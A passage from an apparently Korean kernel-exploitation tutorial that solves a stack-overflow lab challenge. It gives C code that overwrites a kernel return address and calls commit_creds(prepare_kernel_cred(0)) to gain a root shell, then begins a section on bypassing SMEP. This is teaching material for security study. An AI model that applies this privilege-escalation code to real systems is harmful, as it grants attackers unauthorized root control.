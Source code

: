 
`restore_state()`에서 `swapgs`는 gs를 커널에서 사용자로 바꿔주는 역할을 하고, return address를 `win()` 함수로 설정해 `restore_state()` 함수 실행 이후 쉘이 실행되도록 했다.

## 1-3. payload 작성

위의 결과로부터 0x408만큼 쓴 후 그 뒤 8바이트를 잘 덮으면 실행 흐름을 임의로 옮길 수 있음을 알 수 있다. 우선 권한 상승을 위해 다음과 같은 함수를 만든다.

```c
static void lpe() {
    char* (*pkc)(int) = (void *)(prepare_kernel_cred);
    void (*cc)(char*) = (void *)(commit_creds);
    (*cc)((*pkc)(0));
    restore_state();
}
```

이때 prepare_kernel_cred와 commit_creds의 주소는 /proc/kallsyms에서 쉽게 구할 수 있다.

![prep_commit_creds_addr.png](/assets/images/posts_img/kernel/kernel-exploit-tech/lk01-stack-overflow/prep_commit_creds_addr.png)

다음으로 bof를 통해 return address를 `lpe()`로 설정하면 된다.

```c
char buf[0x410];
memset(buf, 'A', 0x410);
*(unsigned long*)&buf[0x408] = (unsigned long)lpe;

write(fd, buf, 0x410);
```

전체 익스플로잇 코드는 다음과 같다.
<details><summary>펼치기 / 접기</summary></details>

실행하면 쉘을 얻을 수 있다.

<p align="center">
  <img src="/assets/images/posts_img/kernel/kernel-exploit-tech/lk01-stack-overflow/win_1.png">
</p>

# 2. +SMEP, -KPTI, -KASLR


[^1]: extract-vmlinux, ROPgadget을 사용했다. 이들의 사용법은 별도의 문서에 정리해 두었다.
[^2]: 전에 만들어 둔 offsetcalc.py를 사용했다. 이 역시도 별도의 문서에 정리해 두었다.